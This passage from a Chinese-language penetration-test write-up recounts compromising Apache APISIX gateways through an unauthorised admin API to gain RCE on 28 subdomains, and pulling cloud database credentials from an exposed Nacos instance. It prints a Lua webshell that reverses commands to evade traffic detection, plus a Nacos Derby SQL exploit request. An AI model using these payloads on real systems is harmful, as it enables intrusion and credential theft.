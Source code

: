 每个路由需要有一个host键来确定该路由被添加到哪个子域  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHibibYaWozTPXFec7hFeEYzGvaqOwPrZJ4yZ3MnpLeQN925sxrS6btUw3w/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
随后再次构造写入恶意路由的数据，把host键加上，发现可以成功写入了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHib1kGDfvetMI1RrKiaLPv7jEKD1eD56GCv2IpHBSOyVWeWuX9G3EYAIFQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
利用未授权接口读出全量路由config，并提取出host键，确定可写入恶意路由的子域范围  
```
import json

def read_config():
    with open("data.json", 'r') as json_file:
        config = json.load(json_file)
    return config

data = read_config()

if "Routes" in data:
    for route in data["Routes"]:
        if "host" in route:
            host_value = route["host"]
            with open("data.txt", "a") as file:
                file.write(host_value + "\n")
                print(host_value)

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHiba0ZPYloPQFXPMSIal5IN8Fngpg7qqI6hicNMMLLxpNLPvicsTcEibO0hg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
但是后面执行命令，有的时候会被阿里云给拦掉，于是构造lua脚本时把传参和命令输出做了倒转，防止被流量检测到  
```
local file=io.popen(string.reverse(ngx.req.get_headers()['Authenication']),'r')
local output=file:read('*all')
file:close()
ngx.say(string.reverse(output))

```  
  
由于该apisix集群部署管理了28个子域的服务，所以成功拿下28个子域Rce  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHibMjyoR4icKq15O5TyeJXiaxtAJCUx2ibzv0iaSaByVs0rqRYDarRzrHrbdA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 案例三、某开发商Nacos未授权访问读取配置信息到精准钓鱼进入内网  
  
利用nacos未授权访问，从CONFIG.INFO读取config信息  
  
很幸运，其中包含公有云数据库凭据  
```
/nacos/v1/cs/ops/derby?sql=select+*+from+CONFIG_INFO+st

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHib3k51hpcK2VxtliaDw9oul2PufKxN1HPgtWgI2iaZWnicic9DLGR6icDxG4w/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  